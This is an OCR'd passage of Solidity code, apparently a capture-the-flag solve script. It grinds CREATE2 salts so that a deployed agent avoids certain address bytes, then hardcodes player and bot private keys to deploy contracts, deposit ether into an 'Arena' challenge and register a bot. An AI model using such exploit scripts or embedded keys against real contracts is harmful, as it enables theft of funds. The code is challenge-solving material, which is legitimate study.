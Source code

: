 ```solidity
        bytes32 salt = bytes32(fromSalt);
        return address(uint160(uint256(keccak256(abi.encodePacked(
            bytes1(0xff),
            address(this),
            salt,
            bytecodeHash
        )))));
    }

    function isValidAddress(address addr) public view returns (bool) {
        uint160 addrUint = uint160(addr);
        for(uint256 i = 0; i < 20; i++) {
            uint8 b = uint8(addrUint % 256);
            if((b >= 0xf0 && b <= 0xf2) || (b >= 0xf4 && b <= 0xf5) || (b == 0xff)) {
                return false;
            }
            addrUint /= 256;
        }
        return true;
    }

    function deploy(uint256 fromSalt) external returns (address) {
        while (!isValidAddress(getAddress(fromSalt))) {
            fromSalt++;
        }
        return address(new Agent{salt: bytes32(fromSalt)}());
    }
}

contract Solve is Script {
    function run() public {
        address myaddr = 0xF85432cea25949e96fa2107900E2712523386856;
        uint256 mysk = 0x1c207c3a1fb67290046586a731b44ca2937b39eb116813ee153ba16c63e05d45;
        vm.startBroadcast(mysk);
        console.log(myaddr.balance);
        Challenge chal = Challenge(0xeC977c63bC40119A8746eaA142F87a989216FB26);
        Arena arena = Arena(chal.arena());

        uint256 botkey = 0x1bdfd8808d05ad060c35a35897d684d56c4767fe59316afc3356a6a0b85eccef;
        address bot = vm.addr(botkey);

        console.log("Arena address:", address(arena));
        console.log("Bot address:", address(bot));

        uint256 step = 1;

        if(step == 1)
        {
            Deployer deployer = new Deployer();
            address agentAddress = deployer.deploy(0);
            console.log("Deployer address:", address(deployer));
            console.log("Agent address:", agentAddress);

            address guyAddress = address(new Guy(arena));
            console.log("Guy address:", guyAddress);
        }
        else if(step == 2)
        {
            Agent agent = Agent(bot);
            agent.setRandomness(arena.randomness());
            arena.deposit{value: 7 ether}();

            arena.register(bot);
```